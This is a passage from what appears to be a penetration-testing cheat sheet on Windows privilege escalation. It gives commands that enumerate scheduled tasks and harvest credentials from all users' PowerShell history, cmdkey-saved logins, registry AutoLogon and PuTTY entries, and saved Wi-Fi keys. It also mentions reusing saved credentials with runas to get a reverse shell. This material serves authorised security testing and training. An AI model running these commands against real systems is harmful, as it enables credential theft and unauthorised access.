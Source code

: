 ```bash
# Enumerate scheduled tasks
schtasks /QUERY /FO LIST /V | findstr /i /c:taskname /c:"run as user" /c:"task to run"

Get-CimInstance -Namespace Root/Microsoft/Windows/TaskScheduler -ClassName MSFT_ScheduledTask | Select-Object TaskName, @{Name = 'User' ; Expression = {$_.Principal.UserId}}, @{Name = 'Action' ; Expression = {($_.Actions.Execute + ' ' + $_.Actions.Arguments)}} | Format-List
```

## Credential Theft

### History Checks

```shell
Get-History
(Get-PSReadLineOption).HistorySavePath

$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
dir env:

dir /a:h
C:\Users\{NomeUtente}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### Cmdkey Saved Credentials

The [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) command can be used to create, list, and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using Remote Desktop without needing to enter a password. This may help us either move laterally to another system with a different user or escalate privileges on the current host to leverage stored credentials for another user.

```shell
cmdkey /list
```

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console.

```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Clear-Text Password Storage in the Registry

```shell
# Windows AutoLogon
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

#Putty
## 1 enumerate 
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
## 2 look at the keys and values of the discovered session
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>

#Wi-fi Passwords
## 1 list out any wireless networks they have recently connected to
netsh wlan show profile
## 2 Retrieving Saved Wireless Passwords
netsh wlan show profile PROFILE_NAME key=clear
```
